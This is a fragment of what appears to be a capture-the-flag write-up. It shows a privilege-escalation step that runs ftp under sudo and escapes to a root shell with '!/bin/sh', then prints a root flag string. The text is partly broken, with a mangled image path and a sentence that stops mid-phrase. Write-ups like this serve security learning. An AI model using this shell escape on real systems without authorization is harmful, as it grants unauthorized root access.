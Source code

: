 I used the

```bash
$ sudo ftp
ftp > !/bin/sh
```

![](images/stones/root-shell.png)

Then I got the root flag.

![](images/stones/root.png)

`SOULSTONE:{56F06B4DAC14CE346998483989ABFF16}    `
